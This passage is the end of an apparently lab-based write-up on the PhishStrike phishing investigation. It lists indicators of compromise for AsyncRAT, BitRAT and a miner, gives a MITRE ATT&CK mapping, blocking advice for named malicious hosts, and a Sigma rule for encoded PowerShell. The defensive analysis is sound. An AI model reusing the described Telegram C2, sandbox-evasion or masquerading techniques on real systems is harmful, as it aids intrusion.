| Exfil channel | `api.telegram.org` (bot `5610920260`) | AsyncRAT C2/exfil |
| Persistence path | `%AppData%\Roaming\Fdqudm\Fsaxd.exe` | Renamed copy of loader |
| SHA256 | `5ca468704e7ccb8e1b37c0f7595c54df4e2f4035345b6e442e8bd4e11c58f791` | AsyncRAT |
| SHA256 | `bf7628695c2df7a3020034a065397592a1f8850e59f9a448b555bc1c8c639539` | BitRAT |
| SHA256 | `453fb1c4b3b48361fa8a67dcedf1eaec39449cb5a146a7770c63d1dc0d7562f0` | CoinMiner |

---

## 🗺️ MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Initial Access | Phishing: Spearphishing Link | T1566.002 |
| Execution | User Execution: Malicious File | T1204.002 |
| Execution | Command & Scripting Interpreter: PowerShell | T1059.001 |
| Defense Evasion | Obfuscated Files or Information (Base64) | T1027 |
| Defense Evasion | Virtualization/Sandbox Evasion (sleep delay) | T1497.003 |
| Defense Evasion | Masquerading (fake image extensions, `svcsvc.exe`) | T1036 |
| Persistence | Boot/Autostart or dropped copy in `%AppData%` | T1547 / T1574 |
| Command & Control | Application Layer Protocol — Web Protocols | T1071.001 |
| Command & Control | Web Service (Telegram Bot API, bidirectional) | T1102.002 |
| Command & Control | Proxy — Multi-hop (Tor fallback in BitRAT) | T1090.003 |
| Resource Development | Acquire Infrastructure — Dynamic DNS domain | T1583.001 |

---

## 🚨 Detection & Mitigation Recommendations

**Email gateway**
- Enforce DMARC `p=reject`/`quarantine` on partner domains where `p=none` currently allows spoofed mail through unchallenged.
- Alert on mismatches between gateway-rewritten auth headers (`X-TM-*`) and the true `Authentication-Results`/`ARC` block — a common sign of relay abuse.

**Network / Proxy**
- Block `107.175.247.199`, `ripley.studio`, and `gh9st.mywire.org` at the perimeter.
- Alert on any non-browser/non-messaging process resolving or connecting to `api.telegram.org` — legitimate business apps almost never call the raw Bot API.

**Endpoint / EDR**
- Flag PowerShell executions using `-enc`/`-EncodedCommand` spawned from processes running out of `Desktop` or `AppData\Roaming`.
- Flag new executables in `%AppData%\Roaming\<random>\` with the same hash/MD5 as a recently downloaded file — a strong persistence signal.

**Sandbox tuning**
- Extend automated detonation timeouts beyond ~60 seconds; this sample family relies on a 50-second `Start-Sleep` specifically to outlast short sandbox windows.

**Illustrative Sigma rule — encoded PowerShell from a user-writable parent**
```yaml
title: Suspicious Encoded PowerShell Spawned From User-Writable Path
status: experimental
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\powershell.exe'
    CommandLine|contains: '-enc'
  suspicious_parent:
    ParentImage|contains:
      - '\Desktop\'
      - '\AppData\Roaming\'
  condition: selection and suspicious_parent
level: high
```

**User awareness**
- Reinforce that "purchase receipt" / invoice lures asking to click a link (especially one pointing to a raw IP address) should be verified out-of-band before opening — no legitimate finance workflow serves invoices as `.exe` files.

---

## 🧠 Analyst Notes / Key Takeaways

- **Header authentication blocks can lie to you at a glance** — always trace back to the *original* `Authentication-Results`/`ARC` hop, not the gateway-rewritten one, before trusting an SPF "pass."
- **One URL, three malware families** — attackers frequently recycle a single loader endpoint across unrelated campaigns/tooling; don't assume one IOC maps to one threat.
- **"Images" aren't always images** — payloads served with `.jpeg`/`.png` extensions from `ripley.studio` show why content-type validation (not just extension checks) matters at the proxy layer.
- **Legitimate cloud services make excellent C2 cover** — Telegram's Bot API is a recurring AsyncRAT/njRAT technique precisely because most organizations won't blanket-block Telegram's infrastructure.
- **Sandbox evasion is often trivially simple** — a single `Start-Sleep` defeated naive automated analysis; timeout tuning is a cheap, high-value detection improvement.

---

## 📁 Repository Structure

```
phishstrike-investigation/
├── README.md
└── images/
    ├── 01-phishstrike-lab-overview.png
    ├── 02-email-header-from-subject-dkim.png
    ├── 03-email-header-arc-auth-spf-dkim-fail.png
    ├── 04-email-header-return-path.png
    ├── 05-email-body-malicious-link.png
    ├── 06-virustotal-ip-reputation.png
    ├── 07-google-osint-ip-lookup.png
    ├── 08-urlhaus-malicious-url.png
    ├── 09-urlhaus-payload-delivery.png
    ├── 10-virustotal-hash-asyncrat.png
    ├── 11-virustotal-hash-bitrat.png
    ├── 12-virustotal-hash-coinminer.png
    ├── 13-virustotal-relations-coinminer-sample.png
    ├── 14-virustotal-relations-bitrat-sample.png
    ├── 15-joesandbox-network-http-packets.png
    ├── 16-joesandbox-process-tree.png
    ├── 17-cyberchef-base64-decode-powershell.png
    ├── 18-malware-config-bitrat-c2.png
    ├── 19-telegram-c2-traffic.png
    └── 20-ioc-summary.png
```

> Unzip `phishstrike-writeup-images.zip` into `images/` and this README will render fully on GitHub as-is.

---

<div align="center">

**Lab:** [PhishStrike — CyberDefenders](https://cyberdefenders.org) · **Track:** SOC Analyst Tier 2, Level 2 · **Score:** 11/11 ✅

</div>
